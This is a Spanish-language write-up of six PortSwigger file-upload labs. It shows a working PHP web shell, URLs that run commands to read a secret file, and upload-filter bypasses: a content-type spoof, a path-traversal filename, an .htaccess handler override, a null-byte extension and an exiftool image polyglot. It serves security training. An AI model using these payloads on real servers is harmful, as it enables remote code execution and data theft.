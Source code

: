 ###PortSwigger - Webshell

## Lab1
En este lab, se nos presenta un sistema de login donde podemos subir un archivo sin sanitizar. Subimos un archivo PHP como "pwned.php" y accedemos a la webshell con el siguiente enlace:

https://0a81006804832510849c04de00e800b0.web-security-academy.net/files/avatars/pwned.php?cmd=whoami

Respuesta:
- carlos

El contenido de la webshell es el siguiente:

• <?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; ?>


Luego, para completar el lab, accedemos a la carpeta `/home/carlos/secret` para encontrar la flag:

https://0a81006804832510849c04de00e800b0.web-security-academy.net/files/avatars/pwned.php?cmd=cat%20/home/carlos/secret

Respuesta:
- 4ThqTUOfwcuCkavnxxofmt8g9lmf5Ozj

# Lab2
En este lab, se nos impide subir archivos PHP, pero podemos eludir esta restricción utilizando BurpSuite. Modificamos la petición para cambiar el tipo de contenido a "image/png" y subimos el archivo "pwned.php". Luego, ejecutamos la webshell:

https://0a81006804832510849c04de00e800b0.web-security-academy.net/files/avatars/pwned.php?cmd=cat%20/home/carlos/secret

Respuesta:
- aBKOzOBOVJm8gcKUDu4YSdYTiSt3nnEm

## Lab3
En este lab, la carpeta "/avatars" está sanitizada, por lo que debemos realizar un ataque de path traversal. Subimos la webshell como "../pwned.php" de forma que evitemos el directorio sanitizado mediante un bypass con el nombre y utilizamos BurpSuite para cambiar el nombre del archivo. Luego, accedemos a la webshell en la nueva ubicación:

https://0a6f0056042de6df8351a56a00f00063.web-security-academy.net/files/pwned.php?cmd=whoami

Respuesta:
- carlos

Para obtener la flag:

https://0a6f0056042de6df8351a56a00f00063.web-security-academy.net/files/pwned.php?cmd=cat%20/home/carlos/secret

Respuesta:
- lQZg3EpoTDXqTBUsJGj4kG1K6gtvelMx

# Lab4
En este lab, no se permite la ejecución de archivos .php. Cambiamos la extensión del archivo a ".png" y subimos un archivo ".htaccess" para permitir la ejecución de archivos ".png" como ".php". Ejecutamos la webshell:

https://0a3700c704dca7b28081adda00cd0094.web-security-academy.net/files/avatars/pwned.png?cmd=cat%20/home/carlos/secret

Contenido de ".htaccess" es el siguiente:

•AddType application/x-httpd-php .png

Respuesta:
- z0X9db4IUCnJOKli3LpTghJtobI5pmGD

# Lab5
En este lab, solo se permiten archivos ".png" y ".jpeg". Utilizamos BurpSuite para cambiar el nombre del archivo y el tipo de contenido para eludir la restricción. Subimos el archivo como "pwned.php%00.png" y ejecutamos la webshell:

https://0abb00e3043ba7768096c6bb0014005b.web-security-academy.net/files/avatars/pwned.php?cmd=cat%20/home/carlos/secret

Respuesta:
- ggRQHtZZeBt2dChk990rBYnkZcVnqs2E

# Lab6
En este lab, solo se permiten imágenes. Utilizamos la herramienta "exiftool" para mezclar el código PHP con una imagen. Subimos el archivo "exploit.php" y ejecutamos la webshell:

Primero descargamos una imagen cualquiera con el nombre, en este caso  "United.png"y luego con el siguiente comando hacemos que la imagen contenga el codigo php malicioso:

>exiftool -Comment='<?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";?>' /home/kali/Desktop/Untitled.png -o exploit.php

https://0a93002604f390db8204936f0030003d.web-security-academy.net/files/avatars/exploit.php?cmd=cat%20/home/carlos/secret

Respuesta:
- YpUjBhe6HOxnddYWHLnHLyfyDAm1CIVF
